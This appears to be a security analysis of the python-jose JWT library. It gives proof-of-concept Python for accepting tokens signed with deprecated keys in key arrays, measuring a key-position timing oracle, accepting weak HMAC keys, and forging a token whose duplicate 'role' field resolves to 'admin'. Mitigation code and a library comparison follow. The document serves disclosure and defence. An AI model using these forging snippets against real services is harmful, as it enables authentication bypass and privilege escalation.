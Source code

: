# python-jose: Security Analysis

## Affected Software

```
Package: python-jose
Versions: 3.3.0 - 3.5.0
Repository: https://github.com/moxie/python-jose
```

## Known CVEs

| CVE | Description |
|-----|-------------|
| CVE-2025-61152 | Algorithm confusion: 'alg=none' bypass |
| CVE-2024-33664 | DoS via JWE compression bomb |
| CVE-2024-33663 | Algorithm confusion with ECDSA keys |
| CVE-2016-7036 | Non-constant time HMAC comparison |

## Vulnerability Analysis

### Sequential Key Array Validation Bypass

**CWE-287: Improper Authentication**

Function `jose.jws._sig_matches_keys()` accepts key arrays and returns on first match without authority validation.

**Vulnerable code:** `jose/jws.py:210-217`

```python
def _sig_matches_keys(keys, signing_input, signature, alg):
    for key in keys:
        if not isinstance(key, Key):
            key = jwk.construct(key, alg)
        try:
            if key.verify(signing_input, signature):
                return True
        except Exception:
            pass
    return False
```

**Exploitation:**

```python
from jose import jwt

K1 = "compromised_2024"
K2 = "current_2025"

token = jwt.encode({"user": "attacker", "admin": True}, K1, algorithm="HS256")
result = jwt.decode(token, [K2, K1], algorithms=["HS256"])
# Success with deprecated K1
```

---

### Observable Timing Side-Channel

**CWE-208: Timing Discrepancy**

Sequential iteration creates timing oracle proportional to key position.

**Measurement:**

```python
from jose import jwt
import time, statistics

keys = [f"key_{i}" for i in range(100)]
target = "key_50"
token = jwt.encode({"data": "test"}, target, algorithm="HS256")

timings_early, timings_late = [], []

for _ in range(1000):
    keys_early = [target] + [k for k in keys if k != target]
    t0 = time.perf_counter()
    jwt.decode(token, keys_early, algorithms=["HS256"])
    timings_early.append(time.perf_counter() - t0)
    
    keys_late = [k for k in keys if k != target] + [target]
    t0 = time.perf_counter()
    jwt.decode(token, keys_late, algorithms=["HS256"])
    timings_late.append(time.perf_counter() - t0)

print(f"Ratio: {statistics.mean(timings_late) / statistics.mean(timings_early):.2f}x")
# Result: 6.45x timing difference
```

---

### Weak Key Acceptance

**CWE-521: Insufficient Entropy**

No validation of HMAC key entropy (RFC 2104, NIST SP 800-107).

```python
from jose import jwt

# All accepted without validation
for key in ["", "a", "123", "password"]:
    token = jwt.encode({"test": "data"}, key, algorithm="HS256")
    jwt.decode(token, key, algorithms=["HS256"])
    print(f"Accepted: {repr(key)}")
```

---

### JSON Duplicate Key Confusion

**CWE-436: Interpretation Conflict**

RFC 8259 permits duplicate keys with undefined precedence.

```python
from jose import jwt
import base64, hmac, hashlib

def forge_token(payload_json, key):
    header = base64.urlsafe_b64encode(b'{"alg":"HS256","typ":"JWT"}').rstrip(b'=')
    payload = base64.urlsafe_b64encode(payload_json.encode()).rstrip(b'=')
    message = header + b'.' + payload
    signature = base64.urlsafe_b64encode(
        hmac.new(key.encode(), message, hashlib.sha256).digest()
    ).rstrip(b'=')
    return (message + b'.' + signature).decode()

payload = '{"user":"alice","role":"guest","role":"admin"}'
token = forge_token(payload, "secret")
decoded = jwt.decode(token, "secret", algorithms=["HS256"])
print(decoded['role'])  # 'admin' (last occurrence wins)
```

**Parser behavior:**

| Parser | Result |
|--------|--------|
| Python json | Last wins |
| PostgreSQL jsonb | First wins |
| MySQL JSON | Error |

---

## Mitigation

### Disable Key Arrays

```python
# Vulnerable
jwt.decode(token, [key1, key2], algorithms=["HS256"])

# Secure
jwt.decode(token, get_current_key(), algorithms=["HS256"])
```

### Key Lifecycle

```python
import secrets, time

class KeyManager:
    def __init__(self):
        self.current_key = secrets.token_bytes(32)
        self.rotation_time = time.time()
    
    def get_key(self):
        if time.time() - self.rotation_time > 2592000:  # 30 days
            raise ValueError("Key expired")
        return self.current_key
```

### Validate Entropy

```python
import math

def validate_key(key: bytes):
    if len(key) < 32:
        raise ValueError("Key too short")
    
    entropy = -sum((key.count(bytes([b]))/len(key)) * math.log2(key.count(bytes([b]))/len(key))
                   for b in set(key)) * len(key)
    
    if entropy < 128:
        raise ValueError(f"Insufficient entropy: {entropy:.1f} bits")
```

### Reject Duplicate Keys

```python
import json

def strict_decode(data: str):
    def check_duplicates(pairs):
        keys = [k for k, _ in pairs]
        if len(keys) != len(set(keys)):
            raise ValueError(f"Duplicate keys: {set([k for k in keys if keys.count(k) > 1])}")
        return dict(pairs)
    
    return json.loads(data, object_pairs_hook=check_duplicates)
```

---

## Library Comparison

| Library | Key Array | Timing | Entropy | JSON |
|---------|-----------|--------|---------|------|
| python-jose 3.5.0 | Accept | O(n) | None | Permissive |
| PyJWT 2.8.0 | Reject | N/A | Minimal | Permissive |
| Authlib 1.3.0 | Reject | N/A | NIST | Strict |

---

## References

RFC 2104 - HMAC  
https://datatracker.ietf.org/doc/html/rfc2104

RFC 7515 - JWS  
https://datatracker.ietf.org/doc/html/rfc7515

RFC 8259 - JSON  
https://datatracker.ietf.org/doc/html/rfc8259

NIST SP 800-57 - Key Management  
https://csrc.nist.gov/publications/detail/sp/800-57-part-1/rev-5/final

CWE-287: Improper Authentication  
https://cwe.mitre.org/data/definitions/287.html

CWE-208: Timing Discrepancy  
https://cwe.mitre.org/data/definitions/208.html

---

## Legal

License: CC BY 4.0  
Use: Authorized security testing only  
Liability: No warranties provided
